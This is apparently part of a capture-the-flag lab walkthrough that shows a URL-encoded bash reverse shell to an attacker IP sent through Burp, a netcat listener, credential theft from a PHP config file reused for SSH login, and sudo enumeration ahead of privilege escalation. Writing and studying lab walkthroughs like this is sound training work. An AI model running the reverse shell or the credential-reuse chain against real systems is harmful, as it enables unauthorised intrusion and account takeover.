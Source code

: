   ```
    /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5:443 0>&1'
    ```
  - In order to execute our payload we have to URL encode it. Select the payload and URL encode it with `CTRL+U`. It is important to URL encode they payload, or else the server will not interpert the command correctly. For example, in the POST bodym the `&` character is used to signal the start of a new parameter. But we have two `&` characters in our string that are both part of the `cmd` parameter. By encoding them, this tells the server to treat the entire string as part of the `cmd`.
  - Now we start the Netcat listener on port 443 and then send the request in Burp for the payload to execute with the following command:
    - ```
      sudo nc -lvnp 443
      ```
    - The reverse shell is successfully received by our listener when we send the request from Burp Suite.


# Lateral Movement

- Apache server is running as the `www-data` user and the shell we received is also running in the context of the user. `www-data` is a default user on the system where web servers are installed and usually has minimal privileges.
- We can enumerate the host. Let's first check the configuration file in the `login` folder that we found earlier. These configuration files often include credentials that are used to communicate with SQL or other DB servers.
  - ```
    cat /var/www/html/login/config.php

    <?php
    $username = "admin";
    $password = "thisisagoodpassword";
    ```
  - We see that the config files has some type of credentials. Sysadmins usually re-use passwords between web and system accounts.
  - We can enumerate further to see if the credentials is valid for any other system user. To do that, we will first list the files in the `/home` directory to quickly identify the users on the system.
  - `ls home`: We find a folder called `John` which gives us a valid username.
  - `su john`: usually we would use the `su` command to switch between users on a Linux host, however, as our shell is not fully interactive, this command will fail.
  - There are methods for upgrading this shell to an interactive shell, but luckliy, we can login as the user `John` over SSH (We know port 22 is open from our Nmpa scan) with the password thst we identified in the previous step.
  - `ssh john@10.129.95.184`: We are able to successfully login with the password found in the `config.php` file.
  - Once logged in we are able to find the `user.txt` in `/home/john/user.txt`

# Privilege Escalation

- We now need to escalate our privileges to that of the `root` user, who has the highest privileges in the system. Instead of running a system enumeration tool like `linPEAS`, let us first perform some basic manual enumeration. Upon checking the `sudo -l` command output, which lists the sudo privileges that our user is assigned, we see that user `john` can run the `find` command as a root.
  - ```

    john@base:~$ sudo -l
    [sudo] password for john: 

    Matching Defaults entries for john on base:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User john may run the following commands on base:
      (root : root) /usr/bin/find
  ```